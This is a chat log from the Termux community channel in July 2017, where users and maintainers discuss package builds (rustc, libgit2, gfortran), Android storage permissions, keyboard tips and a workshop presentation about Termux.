2017-07-18 05:23:57	frumpylava	live_the_dreams: well yeah, then it definetly needs 2 instead of 1. Or change the setting in ncmpcpp

2017-07-18 05:25:11	live_the_dreams	mpdconf.example.patch is the file you want to change the 1 to 2 in

2017-07-18 05:26:08	live_the_dreams	i will let you have the honor of submitting the greatest patch ever

2017-07-18 05:26:11	live_the_dreams	change 1 to 2

2017-07-18 07:04:50	frumpylava	fornwall: Should we bump TERMUX_PKG_REVISION when making a pull request to a package or do you want to do that yourself?

2017-07-18 09:15:19	fornwall	frumpylava: it's great if it's done as part of a pull request!

2017-07-18 09:22:32	BrainDamage	live_the_dreams: you have a file conflict in your packages: http://codepad.org/NNKIkp7B

2017-07-18 09:50:31	frumpylava	fornwall: great, then I shall continue doing so.

2017-07-18 10:58:08	Francy	hi all HOw can I install cpan module with termux ?

2017-07-18 10:59:57	Francy	any canche ?

2017-07-18 11:00:02	Francy	chance^

2017-07-18 13:21:22	gitter	(vishalbiswas) error: undefined reference to '__aeabi_unwind_cpp_pr0' ideas?

2017-07-18 14:11:30	gitter	(vishalbiswas) ignore it. just understood that using ld and clang as linker are two different things

2017-07-18 19:01:39	live_the_dreams	BrainDamage: site won't load which 2 packages in conflict?

2017-07-18 19:21:12	live_the_dreams	github down?

2017-07-18 19:21:59	live_the_dreams	the website anyway

2017-07-18 23:33:50	fidy	hello how are we dooing?

2017-07-18 23:37:14	rods-tab3	wee dooing ...

2017-07-18 23:39:59	fidy	yeah crappy keyboard and poor checking before enter keying.

2017-07-19 00:04:54	rods-tab3	mmmme too; this bluetooth keyboard sleeps too soon and hard to wake up

2017-07-19 00:09:42	fidy	robs-tab3 that sucks more, though i am using a soft keyboard on my phone running irssi.

2017-07-19 00:10:02	fidy	soft keyboards = lame

2017-07-19 00:21:40	fidy	well i hope it wasnt somwthing i said

2017-07-19 01:28:37	travisfw	how do I open a file?

2017-07-19 01:34:04	gitter	(vishalbiswas) error: no member named 'fseeko64' in the global namespace; did you mean 'fseeko'?, shouldn't it be defined to fseeko? I see `int fseeko(FILE*, off_t, int) __RENAME(fseeko64);` in stdio.h

2017-07-19 02:43:22	csaba	Hi folks, apt update fails due to "Hash sum mismatch"

2017-07-19 02:51:12	frumpylava	fornwall: ping! Hash sum mustaches.

2017-07-19 02:51:21	frumpylava	@fornwall: ping! Hash sum mustaches.

2017-07-19 02:52:59	frumpylava	csaba: This happens occasionally. It's a network problem relating to Cloudflare. We need to clear some caches or something. There is nothing YOU can do, it will probably be fixed in a few hours.

2017-07-19 02:54:26	csaba	frumpylava: thanks. I noticed it already happening yesteday 10PM (UTC+2).

2017-07-19 02:57:02	frumpylava	csaba: Yeah, I think it happens when a round of updates doesn't get distributed evenly across cloudflare (I think). Thanks for bringing it to our attention. Now that we know about it we can fix it. We just need to wait for @fornwall to get online.

2017-07-19 02:58:29	csaba	frumpylava: OK, I'm patient :)

2017-07-19 03:34:49	frumpylava	Texlive is pretty cool. I am creating my presentation about Termux on Termux.

2017-07-19 03:39:01	gitter	(vishalbiswas) frumpylava: mustaches? There's even an issue about "Hash sum mustaches"

2017-07-19 03:39:54	fidy	is there a good man page for the transmission package?

2017-07-19 03:40:46	frumpylava	@vishalbiswas It's a hilarious typo that I am now desperately trying to make an in-joke. ;)

2017-07-19 03:40:55	frumpylava	fidy: `man transmission-daemon`

2017-07-19 03:42:15	fidy	@frumpylav Thank you.

2017-07-19 04:00:09	gitter	(vishalbiswas) frumpylava: about mysqli, i can build php-mysql with your original commit (unified headers). So....we need a third tester to see where is the problem

2017-07-19 04:05:40	frumpylava	@vishalbiswas, can you send me the .deb package? Since I still can't build it, I can't even test it with the current mariadb version. Maybe the problem doesn't even exist anymore.

2017-07-19 04:39:07	live_the_dreams	hmm  messing around with apt a bit since we got better c++ we can compile later versions

2017-07-19 04:40:41	gitter	(vishalbiswas) live_the_dreams: aptitude?

2017-07-19 04:43:11	live_the_dreams	nah haven;t done that yet

2017-07-19 04:43:11	live_the_dreams	may have a go

2017-07-19 05:58:10	frumpylava	live_the_dreams: Oh gawd. ncmpcpp looks so pretty after a bit of theming (@_@)

2017-07-19 06:04:56	gitter	(vishalbiswas) no album art 0/10

2017-07-19 06:09:22	frumpylava	@vishalbiswas, yeah, I was hoping for some caca album art, but I haven't found a solution.

2017-07-19 06:28:56	live_the_dreams	i was going to fix up default settings

2017-07-19 06:29:01	live_the_dreams	but i got distracted

2017-07-19 06:32:17	frumpylava	live_the_dreams: I'd suggest the following:

2017-07-19 06:32:22	frumpylava	lines_scrolled = 1

2017-07-19 06:32:24	frumpylava	mouse_support = yes

2017-07-19 06:32:26	frumpylava	mouse_list_scroll_whole_page = no

2017-07-19 06:32:54	frumpylava	This makes scrolling work one line at a time and makes it 1000% nices on a touchscreen.

2017-07-19 06:35:30	frumpylava	I think it's similar to how vim is configured by default on termux.

2017-07-19 06:51:55	Taosim	can't display image files by imagemagick in termux

2017-07-19 06:52:49	Taosim	anybody knows the anwser

2017-07-19 06:54:04	Taosim	who knows can send msg to me,pls,thx

2017-07-19 06:54:20	live_the_dreams	what do you mean there is no image viewer in the terminal? ...

2017-07-19 06:54:21	live_the_dreams	xdg-open file

2017-07-19 10:06:03	BrainDamage	live_the_dreams: install numpy & scipy, they drag in libgfortran and libgfortran4 which conflict over /data/data/com.termux/files/usr/lib/libgfortran.so

2017-07-19 11:12:26	gitter	(vishalbiswas) what's the diff between pcre and pcre2?

2017-07-19 14:11:26	BismuthBorealis	hey, uh, is there any way I can use jre?

2017-07-19 17:55:59	gitter	(fornwall) @vishalbiswas pcre2 is new, pcre is old :)

2017-07-19 17:56:02	gitter	(fornwall) http://www.pcre.org

2017-07-19 17:56:24	gitter	(fornwall) I guess it's time to package pcre2

2017-07-19 17:58:17	live_the_dreams	BrainDamage: aarch64 or arm?

2017-07-19 18:00:15	live_the_dreams	no wait its aarch64

2017-07-19 18:00:17	live_the_dreams	fixing now

2017-07-19 18:58:31	live_the_dreams	well there we go i did the move libc++ the unified and libgfortran to libgfortran4 move in one big go

2017-07-19 20:23:48	mattfly	hi

2017-07-19 20:24:06	mattfly	wow there are indeed some people here

2017-07-19 20:24:44	mattfly	how to enable to use the ctrl A key on termux wihiut alt?

2017-07-19 20:26:46	sdrausty	mattfly: https://termux.com/touch-keyboard.html

2017-07-19 20:33:11	mattfly	this is what i get when i hit ctrl a

2017-07-19 20:33:50	mattfly	ctrl a is disabled, use ctrl alt a instead, or enable it in settings

2017-07-19 20:34:07	mattfly	i see nothing about this in any setting

2017-07-19 20:35:18	fidy	Quick question, is there a command line audio player?

2017-07-19 20:37:49	live_the_dreams	mpv

2017-07-19 20:37:50	live_the_dreams	there is also mpd which is a daemon

2017-07-19 20:38:26	mattfly	this is cool

2017-07-19 20:38:42	mattfly	wish i was able to use ctrl a directly :(

2017-07-19 22:00:14	live_the_dreams	are you talking of hackers keyboard?

2017-07-19 22:08:23	live_the_dreams	yeah that is a hackers keyboard message

2017-07-19 22:24:52	rods-tab3	iirc control-A is select all;  with my BT keyboard, cursor goes to beginning of line

2017-07-19 22:52:43	th30nE	how to set up a ssh connection to my home server?

2017-07-19 22:53:40	th30nE	everytime I try to connect with ssh termux crashes!

2017-07-20 00:11:58	fidy_	hello all.

2017-07-20 00:14:00	fidy_	rods-tab3: You get that keyboard bit sorted?

2017-07-20 00:14:52	fidy_	On a different note, I was wondering if termux had a cli streaming audio package. Anyone know of one?

2017-07-20 00:22:38	live_the_dreams	mpv does

2017-07-20 00:23:34	live_the_dreams	unless you mean stream from termux

2017-07-20 00:29:37	fidy_	live_the_dreams: Yeah, I was hoping for something like that...

2017-07-20 00:30:38	live_the_dreams	there is way mpd does it

2017-07-20 00:30:45	live_the_dreams	there is no microphone support for termux as of yet ....

2017-07-20 00:34:38	fidy_	live_the_dreams: I want to play streaming music, dont care to transmit.

2017-07-20 00:34:56	live_the_dreams	oh you want to stream to termux so it plays

2017-07-20 00:35:03	live_the_dreams	mpv can do that

2017-07-20 00:37:06	fidy_	live_the_dreams: Thank you.

2017-07-20 09:52:08	frumpylava	Does anybody know of any Tips and tricks that might be helpful to a termux beginner? It's for my workshop on saturday.

2017-07-20 09:53:29	frumpylava	I already have `termux-fix-shebang` and `xdg-open`

2017-07-20 10:05:05	live_the_dreams	oooo new apt

2017-07-20 10:06:48	frumpylava	live_the_dreams: What does new apt do better than old apt?

2017-07-20 10:07:18	live_the_dreams	not much

2017-07-20 10:10:08	live_the_dreams	but it has a higher version number so questioning it is heresy

2017-07-20 10:11:11	live_the_dreams	also tried aptitude but that isn't going yo happen

2017-07-20 10:50:16	gitter	(vishalbiswas) Whaaaay?

2017-07-20 10:57:56	live_the_dreams	cwidget

2017-07-20 11:04:09	live_the_dreams	i don;t think it compiles with libc++

2017-07-20 11:37:01	gitter	(Grimler91) frumpylava: what's your targeted audience? Beginners who have never even used linux or beginners who has some linux-experience?

2017-07-20 11:38:32	gitter	(Grimler91) `termux-fix-shebang` (and some info on why it is needed) is essential.

2017-07-20 11:40:02	gitter	(Grimler91) pointing people to the termux-wiki and the help section (https://termux.com/help.html) might be good as well

2017-07-20 11:41:23	frumpylava	@Grimler it's mostly adept Linux users, who jave never used Termux.

2017-07-20 11:44:51	frumpylava	@Grimler91 You can find my working draft here. (https://glow.li/share/Termux_Workshop.html). It's the Handout at my workshop. The workshop is about using Linux as your main OS, not just about the basics of Termux. It's in German though, so I'm not sure if you can read it.

2017-07-20 11:46:10	gitter	(Grimler91) Cool, I'll have a look (don't know german though :p)

2017-07-20 11:49:24	gitter	(Grimler91) Maybe cover the really basic stuff, like how accessing ctrl, alt etc with a soft keyboard?

2017-07-20 11:53:03	rods-tab3	https://translate.google.com/translate?sl=de&tl=en&js=y&prev=_t&hl=en&ie=UTF-8&u=https%3A%2F%2Fglow.li%2Fshare%2FTermux_Workshop.html&edit-text=

2017-07-20 11:56:31	gitter	(Grimler91) @frumpylava What's your punch line with the presentation,

2017-07-20 11:57:50	gitter	(Grimler91) (ops), you'll go through how to get started and stuff (nice job in the handouts), do you have some slides prepared with like what termux is/how it fits in to your linux-as-main-os life?

2017-07-20 11:58:36	rods-tab3	https://termux.com/touch-keyboard.html     tells it all

2017-07-20 11:59:10	gitter	(Grimler91) @rods-tab3 true, just need to make people aware the page exists

2017-07-20 12:06:51	rods-tab3	iirc also  wiki.termux.com

2017-07-20 12:11:26	frumpylava	@Grimler91 Yes, this Workshop is after a presentation about termux. I'll go into all the What is and How I use it there.

2017-07-20 12:11:32	frumpylava	Working Draft: https://glow.li/share/Termux_Pr%C3%A4sentation.pdf

2017-07-20 12:16:20	frumpylava	It's going to be a half an hour presentation, and then 1:30 of workshop for those who are more interessted, but not adept enough to figure it all out themselves.

2017-07-20 12:48:41	gitter	(Grimler91) File Edit Options Buffers Tools Help

2017-07-20 12:48:41	gitter	(Grimler91) Wow, such a nice presentation! Did you create it with beamer? I thought I was good with beamer but that template (nice section-counter!) is amazing!

2017-07-20 12:48:41	gitter	(Grimler91) I guess most people here in the channel have different backgrounds and use termux differently. For me (a PhD student) it fits really nicely into my line of work as a sort of linux-on-the-go. Instead of bringing my laptop whenever going somewhere these days, I can bring my tablet & phone and still be able to use all the scientific tools I normally use (python, gnuplot, texlive, ...). I'm thinking that if I was in the audience I mi

2017-07-20 12:48:41	gitter	fulfill that my linux-laptop can't do. Maybe it would be good to mention this after the introduction and before going through the packages and apt and stuff

2017-07-20 14:56:07	frumpylava	@Grimler91 Thanks. I did create it with beamer (on Termux), altough I can't take credit for the theme. I did not create it: https://git.honet.ch/vimja/beamer_template. It was actually my very first foray into Latex in general.

2017-07-20 14:56:42	frumpylava	Also you're right. I might restructure the presentation so that reasons for using it is at the very beginning.

2017-07-20 15:09:52	b1nny	hello!

2017-07-20 15:10:09	frumpylava	b1nny: hi

2017-07-20 15:10:42	b1nny	I was wondering, is there a way to get a small pop-up bar with a few keys in Termux, like JuiceSSH has? screenie: https://pbs.twimg.com/media/C8cItnuWsAABH1I.jpg

2017-07-20 15:16:54	frumpylava	b1nny: yes.

2017-07-20 15:17:03	b1nny	frumpylava: oh! Mind telling me more about that? :)

2017-07-20 15:17:03	frumpylava	Open the left drawer and long press the keyboard button

2017-07-20 15:17:28	b1nny	holy moly!

2017-07-20 15:19:05	frumpylava	if you swipe left on that button bar, you get a nice text input view, that can use advanced keyboard features, like swyping and autocorrect.

2017-07-20 15:19:27	b1nny	nice! This is awesome :)

2017-07-20 15:19:41	b1nny	sounds like I can get rid of juicessh then

2017-07-20 15:20:37	b1nny	wish I could add the arrow keys to the keys bar (for use in vim for example) but hey, this works :D

2017-07-20 15:23:00	frumpylava	Is this your screenshot? If you use Swiftkey that has an arrow key bar that you can enable.

2017-07-20 15:23:23	b1nny	this is one I found via google, but that's a good suggestion

2017-07-20 15:24:21	frumpylava	An other possibility is to use "Hacker's Keyboard", which has all the keys.

2017-07-20 15:27:14	b1nny	yeah, hacker's keyboard is very nice :)

2017-07-20 15:27:25	b1nny	the suggestions it provides are not the best though sadly enough

2017-07-20 15:28:37	frumpylava	indeed. That's why I use SwiftKey

2017-07-20 15:29:28	b1nny	:) personally not using it anymore since they got acquired by Microsoft

2017-07-20 15:32:38	frumpylava	b1nny: Yeah. I'd really like to use an open source Keyboard that has Swiping and good Bilingual support. As soon as I find one that is half as good as SwiftKey I'll switch.

2017-07-20 15:33:27	b1nny	Yup.. Anysoftkeyboard (https://anysoftkeyboard.github.io/) works pretty nicely, but it has the stupidest keyboard layouts possible

2017-07-20 15:34:47	frumpylava	Indeed. Also I don't want to switch between languages, I want it to be able to recognize the language I'm typing like SwiftKey does.

2017-07-20 17:08:11	kst	b1nny: For vim, you can use hjkl as directional keys (but not in input mode).

2017-07-20 21:08:53	gitter	(mklein994) live_the_dream: any updates on rust for arm?

2017-07-20 21:26:16	live_the_dreams	oops

2017-07-20 21:26:52	ParkerR	Heh

2017-07-20 21:29:48	gitter	(mklein994) Just a heads up; rust is now at 1.19.

2017-07-20 21:37:27	live_the_dreams	vish is in charge of rust stuff but im testing a version bump now

2017-07-20 21:55:39	gitter	(mklein994) Thanks!

2017-07-20 21:58:48	live_the_dreams	also upload ldc package for arm ... only builds on arm afaik

2017-07-20 22:04:09	gitter	(mklein994) Neat

2017-07-21 01:30:21	live_the_dream_s	damn it gmic isn't working on arm

2017-07-21 01:56:54	gitter	(vishalbiswas) live_the_dream_s: updated rustc and cargo

2017-07-21 03:02:55	b1nny	kst: I know :) never really got used to those though, maybe I should haha. For now I've installed GBoard (which has arrow keys too) and firewalled it, so I hopefully should be fine!

2017-07-21 03:17:31	gitter	(cocodevienne) Two questions: First, did someone tag me? Cannot seem to find that particular chat in the Gitter app. Second, how do I go about writing a plugin app for Termux?

2017-07-21 03:17:39	gitter	(cocodevienne) @vishalbiswas

2017-07-21 10:36:40	gitter	(vishalbiswas) @cocodevienne frumpylava tagged you previously. Thought that you could attend his presentation on Termux tomorrow

2017-07-21 17:11:24	gitter	(Grimler91) Does gdb needs to be rebuilt? `gdb` followed by `run` gives segmentation fault

2017-07-21 18:56:11	gitter	(mklein994) @vishalbiswas if I run for example, `cargo search racer`, it complains about an invalid Content-Type `application/x-git-upload-pack-advertisement`, and fails. Is there anything you can do about it?

2017-07-21 18:56:27	gitter	(mklein994) I'm on `arn` by the way.

2017-07-21 23:32:43	gitter	(vishalbiswas) @mklein994  What version of cargo do you have?

2017-07-21 23:33:27	gitter	(mklein994) 0.20.0

2017-07-21 23:40:10	gitter	(vishalbiswas) Can you try using this https://drive.google.com/folderview?id=0B8Q4yBRb9PSHcVAxbjhZQmszbVU

2017-07-22 00:02:57	gitter	(mklein994) As far as I can tell, nothing changed. :(

2017-07-22 00:05:15	gitter	(vishalbiswas) do you have libgit2 installed? strange working for me

2017-07-22 00:06:53	gitter	(vishalbiswas) @mklein994 related https://github.com/libgit2/libgit2sharp/issues/1094?

2017-07-22 00:08:53	gitter	(mklein994) Yup, sure do. I'll see if I can figure this out tomorrow.

2017-07-22 00:10:00	gitter	(vishalbiswas) @mklein994 can you give me the exact steps to reproduce this?

2017-07-22 00:13:03	gitter	(mklein994) So I'm not sure of any environment settings or what have you that might be affecting this (when I rename `~/.cargo` it still happens), but it's simply running `cargo search racer`, which should return a result for rust code completion (it shows up on crates.io). I also have almost all packages installed.

2017-07-22 00:15:03	gitter	(mklein994) https://gist.github.com/mklein994/b793b94ea879f9f6bbafd18613da522f

2017-07-22 07:31:28	gitter	(ranjith0035) Hii guys am new to termux

2017-07-22 07:39:00	gitter	(its-pointless) hello

2017-07-22 07:40:15	gitter	(ranjith0035) Hello @its-pointless

2017-07-22 07:40:55	gitter	(ranjith0035) Actually wat for this termux app is used for i dont have any idea abt it can any one please explain wat all we can do with this app

2017-07-22 07:40:57	gitter	(ranjith0035) ??

2017-07-22 08:05:22	live_the_dream_s	runs command line applications from linux on your android device like python ruby

2017-07-22 08:07:09	gitter	(ranjith0035) Oh how to install those package ?? In it ??

2017-07-22 08:07:23	live_the_dream_s	as well as c,c++  tool chain bash commands

2017-07-22 08:08:17	gitter	(ranjith0035) Oh tq bro

2017-07-22 08:08:25	live_the_dream_s	apt update

2017-07-22 08:08:25	live_the_dream_s	then apt install python

2017-07-22 08:08:27	gitter	(ranjith0035) For using these do i need to root my device ??

2017-07-22 08:08:33	live_the_dream_s	no

2017-07-22 08:08:56	gitter	(ranjith0035) Bro can you say some command to install all

2017-07-22 08:09:25	live_the_dream_s	the whole thing is designed to not need root

2017-07-22 08:09:25	gitter	(ranjith0035) Termux and linux terminal is those two are same bro ??

2017-07-22 08:09:36	live_the_dream_s	basically yeah

2017-07-22 08:10:20	gitter	(ranjith0035) Bro it shows unable to locate package ??

2017-07-22 08:10:39	live_the_dream_s	apt update; first

2017-07-22 08:10:40	gitter	(ranjith0035)

2017-07-22 08:10:40	gitter	(ranjith0035) E: Unable to locate package phython

2017-07-22 08:11:14	gitter	(ranjith0035) Yup i updated then i gave apt install python

2017-07-22 08:11:46	live_the_dream_s	you spelt it wrong

2017-07-22 08:11:47	live_the_dream_s	?

2017-07-22 08:12:23	gitter	(ranjith0035) Well yeah i spelt it wrong sorry 😅

2017-07-22 08:12:28	live_the_dream_s	E: Unable to locate package phython

2017-07-22 08:12:28	live_the_dream_s	apt list should give you the list

2017-07-22 08:13:00	gitter	(ranjith0035) Thanks a lot @TermuxBot

2017-07-22 08:13:33	gitter	(ranjith0035) Bro and how to install java and c++

2017-07-22 08:14:03	gitter	(ranjith0035)

2017-07-22 08:14:03	gitter	(ranjith0035) E: Unable to locate package java

2017-07-22 08:14:30	live_the_dream_s	java isn't working yet

2017-07-22 08:14:30	live_the_dream_s	apt install clang should give you clang++ compiler

2017-07-22 08:15:22	gitter	(ranjith0035) Yeah bro really termux is soo cool

2017-07-22 08:15:30	gitter	(ranjith0035) Hope ill lear a lot frm it

2017-07-22 08:16:03	gitter	(ranjith0035) And please share more information abt termux i need to learn a lot of things in it

2017-07-22 08:16:16	gitter	(ranjith0035) Tq @TermuxBot for helping me bro

2017-07-22 09:37:24	fidy	can anyone tell me how to grant permissions to my sdcard? mpv fails out because of permissions just curious if there's a known fix.

2017-07-22 09:42:00	kb9tui	ood morning.  i am a new user to termux.

2017-07-22 10:39:48	gitter	(mklein994) fidy: permissions are a tricky thing in Android, because of how Android separates apps from each other. If you run `termux-setup-storage`, have a look around `~/storage` to see the symlinks it creates.

2017-07-22 10:40:52	gitter	(mklein994) I have no problem writing to `/sdcard` (internal storage), and for external in `~/storage/external-1`.

2017-07-22 10:50:07	gitter	(StarRider) I am not able to locate my .ssh folder in my phone.

2017-07-22 10:52:25	gitter	(StarRider) I newly created an ssh key.But its not in folders as its shown in the termux terminal

2017-07-22 10:53:09	gitter	(StarRider) Com.termux is the missing folder.

2017-07-22 10:53:12	gitter	(StarRider) Pls help

2017-07-22 11:44:40	gitter	(cocodevienne) Ohhh... @vishalbiswas

2017-07-22 11:46:16	gitter	(cocodevienne) Right, where was it? @frumpylava @vishalbiswas Is there a video online somewhere? Woulr have loved to attend, I've just been traveling a lot lately. What is this I hear? Do we have Rust for Termux?

2017-07-22 11:46:52	gitter	(vishalbiswas) @cocodevienne not in termux official repos. use its-pointless' repo for rustc

2017-07-22 12:46:19	frumpylava	@cocodevienne It was in Schaffhausen Switzerland. There is currently a hacker camp here. There will be a video.

2017-07-22 13:40:19	gitter	(ranjith0035) How to run a. C++ prog in termux guys ?m

2017-07-22 13:41:46	BrainDamage	some way you run in the rest of the computers, you have to compile it firt

2017-07-22 13:41:48	BrainDamage	first*

2017-07-22 13:42:21	BrainDamage	and how you compile depends on how the authors set it up, look for instructions, they are generally shipped along the source

2017-07-22 16:02:48	kb9tui	ood afternoon all

2017-07-22 16:02:55	kb9tui	good

2017-07-22 17:14:42	fidy	i need to access my sdcard from termux but i keep getting permission denied.

2017-07-22 17:16:27	gitter	(Grimler91) fidy: have you run `termux-setup-storage` and then looked in ~/storage as mklein994 suggested above?

2017-07-22 19:22:48	skylog	hello

2017-07-22 19:27:46	SkyLog	Olá

2017-07-22 19:29:16	SkyLog	Systemdownloading

2017-07-22 19:29:51	SkyLog	Olá

2017-07-22 19:35:07	fidy	hey all. I've asked before but missed any possible replies. How do I grant permissions for termux to my sdcard?

2017-07-22 19:39:51	gitter	(Grimler91) Try running `termux-setup-storage` and then looking in the folder ~/storage

2017-07-22 19:40:35	fidy	gitter: Thanks, I'll give it a shot.

2017-07-22 19:43:54	fidy	gitter: That did the trick, is this setup required with each run?

2017-07-22 19:48:54	rod-yolo	no

2017-07-22 19:48:55	gitter	(Grimler91) No, only once!

2017-07-22 19:51:34	fidy	Thank you everyone.

2017-07-22 20:18:21	fidy	You guys know everything. What temperature is chicken considered to be properly cooked.

2017-07-22 20:22:19	travisfw	160 F like everything else

2017-07-22 20:23:46	travisfw	for at least a minute or more

2017-07-22 20:42:29	fidy	travisfw: Yep, thats everything.

2017-07-22 21:21:31	rods-tab3	how much storage space does /data/apps/com.termux occupy ?

2017-07-22 21:29:00	sdrausty	rods-tab3: $ du -hs /data/apps/com.termux

2017-07-22 21:29:00	sdrausty	du: cannot access '/data/apps/com.termux': No such file or directory

2017-07-22 21:34:23	rods-tab3	yea you need to be root to access /data/apps

2017-07-22 21:35:51	sdrausty	I'll pass

2017-07-22 22:07:53	gitter	(mklein994) sdrausty: don't you mean `/data/data/com.termux/files`?

2017-07-22 22:09:03	gitter	(mklein994) Or do you want to know how much space Termux is taking up? 'Cause that's in app settings, like any other app.

2017-07-22 22:22:11	sdrausty	mklein994: 19G     /data/data/com.termux/files

2017-07-22 22:38:46	rods-tab3	no, just wanted /data/apps/com.termux space used

2017-07-22 22:42:19	rods-tab3	under  settings/app/termux/storage  it says APP 208kB  -- guess thats it

2017-07-22 23:46:48	gitter	(vishalbiswas) Thats the size of the apk

2017-07-22 23:53:40	rods-tab3	whats then the size of /data/apps/com.termux  ?

2017-07-23 00:27:28	live_the_dream_s	oh well that is weird

2017-07-23 00:27:28	live_the_dream_s	gmic on arm needs to link against compiler_rt

2017-07-23 00:27:28	live_the_dream_s	even though its cross compiling and it shouldn't be available

2017-07-23 02:22:33	Auxilus	@vishalbiswas @fornwall looks like metasploit-aggregator is broken , also there might be some problems with the grpc

2017-07-23 02:23:03	Auxilus	i am getting this error while using msfdb :

2017-07-23 02:23:14	gitter	(Auxilus) `Creating configuration file in /data/data/com.termux/files/home/metasploit-framework/config/database.yml

2017-07-23 02:23:14	gitter	(Auxilus) Creating initial database schema

2017-07-23 02:23:14	gitter	(Auxilus) rake aborted!

2017-07-23 02:23:14	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=597440d24bcd78af56d8b227]

2017-07-23 04:20:00	gitter	(bitcoinmeetups) Hello guys. How are you? What is the best tool for encrypting folders in Termux? I have tried Scrypt already but I was not sold on it.

2017-07-23 06:52:50	gitter	(vishalbiswas) @mklein994 Do u have 0.26 version of libgit2 installed?

2017-07-23 06:53:06	gitter	(vishalbiswas) I think it was introduced in that version.

2017-07-23 06:53:23	gitter	(vishalbiswas) I have 0.25 and its working fine

2017-07-23 07:15:10	live_the_dream_s	or i screwed up rustc compile

2017-07-23 07:15:11	live_the_dream_s	of which im testing that theory

2017-07-23 07:45:42	live_the_dream_s	im getting that error with libgit2 0.25

2017-07-23 07:55:56	u0_a146	good morning all.

2017-07-23 07:58:41	u0_a146	wx here in IN warm and cloudy.

2017-07-23 07:59:53	u0_a146	just got termux on my android.

2017-07-23 08:02:53	u0_a146	running curl,htop and irssi and elinks

2017-07-23 08:03:27	u0_a146	elinks sucks on a small android.

2017-07-23 08:05:00	live_the_dream_s	make text small and put your face close to the screen....

2017-07-23 08:05:00	live_the_dream_s	no don't do that

2017-07-23 08:14:23	gitter	(vishalbiswas) live_the_dream_s: did you version bumped them or used my latest commit?

2017-07-23 08:15:09	live_the_dream_s	use your commit

2017-07-23 08:15:16	live_the_dream_s	just did one from scratch ...

2017-07-23 08:15:20	live_the_dream_s	rustc

2017-07-23 08:15:25	live_the_dream_s	same issue

2017-07-23 08:16:11	live_the_dream_s	warning: spurious network error (2 tries remaining): [12/-1]

2017-07-23 08:17:29	gitter	(vishalbiswas) I'm working through libgit2 code

2017-07-23 08:17:45	gitter	(vishalbiswas) That's a smart git client header

2017-07-23 08:18:14	live_the_dream_s	vish could you do a strace of working arm for comparison?

2017-07-23 08:27:10	gitter	(vishalbiswas) live_the_dream_s: https://drive.google.com/file/d/0B8Q4yBRb9PSHY09iV3RVVF90aXM/view?usp=drivesdk

2017-07-23 08:34:40	live_the_dream	may not be git ssl issue

2017-07-23 08:35:29	live_the_dream	might be ssl

2017-07-23 09:01:19	gitter	(mklein994) Yeah, I have libgit2 0.26.0 installed. How do I install a specific version with apt?

2017-07-23 09:04:03	live_the_dream	may not even help mk

2017-07-23 09:04:16	live_the_dream	in fact it probably won't i have already tested

2017-07-23 09:22:46	gitter	(mklein994) Alright, thanks for trying.

2017-07-23 10:07:39	fidy	Morning all.

2017-07-23 12:02:11	gitter	(vishalbiswas) frumpylava: how did the presentation go? Videos?

2017-07-23 13:21:03	m4sk1n	why there's no simple green on black color scheme in termux?

2017-07-23 14:50:43	gitter	(mklein994) m4sk1n: it's really easy to create that scheme. Just base it off of "White on Black".

2017-07-23 15:08:36	m4sk1n	but it would be great to have this theme, a lot of people would use it XD

2017-07-23 15:08:50	m4sk1n	you can't be real hacker without 'green on black'

2017-07-23 15:34:11	gitter	(mklein994) Just like running `cmatrix` means your a master H@X0R who can hack the mainframe… Anyway, just set your colors heme to "White on Black" and see what `~/.termux/colors.properties` has. It's really easy, unless the command line is new to you.

2017-07-23 15:45:01	rods-tab3	Real hackers are Goth and only use the Black on Black theme.

2017-07-23 16:57:45	rods-tab3	IEEE Spectrum released their fourth interactive ranking of programming languages this week, and Python has earned the top spot, nudging out C and Java, which took second and third place respectively.     http://spectrum.ieee.org/computing/software/the-2017-top-programming-languages

2017-07-23 17:26:52	frumpylava	@vishalbiswas. It went fairly well. It attracted quite a few people (considering the size of the camp). After the presentation I helped a few people with the basics of Termux at a workshop. Yes, there is a video, but you'll probably not understand me.

2017-07-23 17:27:27	frumpylava	@vishalbiswas: https://media.ccc.de/v/zeteco-59-termux_als_betriebssystem

2017-07-23 18:20:56	sdrausty	frumpylava: Congratulations:)

2017-07-23 19:18:24	live_the_dream	hmm something is going very strangely with setup

2017-07-23 19:19:04	live_the_dream	time to redo everything again

2017-07-23 22:13:02	rods-tab3	18 July 2017 -- BusyBox 1.27.1 (stable)   --  termux bb says 1.26.2   ??

2017-07-23 22:28:43	rods-tab3	also ash and hush missing in termux busybox ??

2017-07-23 22:30:02	rods-tab3	yabb -- http://www.barebox.org/

2017-07-23 22:35:17	live_the_dream	oh yeah mpd is at 0.20.9

2017-07-23 23:19:30	gitter	(vishalbiswas) frumpylava: was hoping, there would be subtitle

2017-07-24 00:23:28	gitter	(vishalbiswas) nobody noticed that neovin (neovim) fail?

2017-07-24 00:50:38	live_the_dream	build or the binary?

2017-07-24 00:53:12	gitter	(vishalbiswas) live_the_dream: talking about frumpylava's presentation

2017-07-24 00:53:41	live_the_dream	oh

2017-07-24 05:46:00	endre	hi there

2017-07-24 09:30:18	live_the_dream	damn it i can get octave to work relatively easy om aarch64 but segfaults om arm

2017-07-24 09:58:14	branau	Hi everyone! I posted on Google+ a couple weeks ago about helping out but I was in wedding-prep mode and just got back from my honeymoon. Now that I'm back in the terminal, I'd love to chip in :) I work primarily as a web and Android dev though I'd love to get better at C. Any easy/quick-fix tasks I could take a look at to start getting my hands dirty? :)

2017-07-24 10:49:09	gitter	(vishalbiswas) branau: you can look into the github issues, especially for termux-packages

2017-07-24 11:29:28	branau	vishalbiswas: Thanks for the tip, I'll run through some of the issues and see what I can find :) Do you have any sort of organization regarding confirming issues and assigning them? I didn't see any contributors documentation for the termux-packages repo

2017-07-24 11:47:17	Benl90	hello, I have question, about termux, why termux can't accept 'll' code like on linux? like ls -l or whatever we call it.

2017-07-24 11:49:48	Benl90	Why I should use ls -l when ll is available across linux terminal, other I means.. any idea or help please? Thanks

2017-07-24 11:51:16	rods-tab3	alias  ll=ls -l

2017-07-24 11:51:38	Benl90	with tsu or not?

2017-07-24 11:51:52	Benl90	rods-tab3: Or everytime when I start termux?

2017-07-24 11:52:28	Benl90	rods-tab3: bash not found?

2017-07-24 11:53:27	Benl90	oh I get it, with ''

2017-07-24 12:04:22	Benl90	is there anyway to make bashrc global for the alias rods-tab3 ?

2017-07-24 12:08:28	Benl90	oh I get it, sorry I just set it on bash.bashrc, thanks for helping me

2017-07-24 12:37:22	gitter	(vishalbiswas) branau: issues are labelled in that repository. bug-reports and package requests are most interesting. You can also look for "help wanted" label

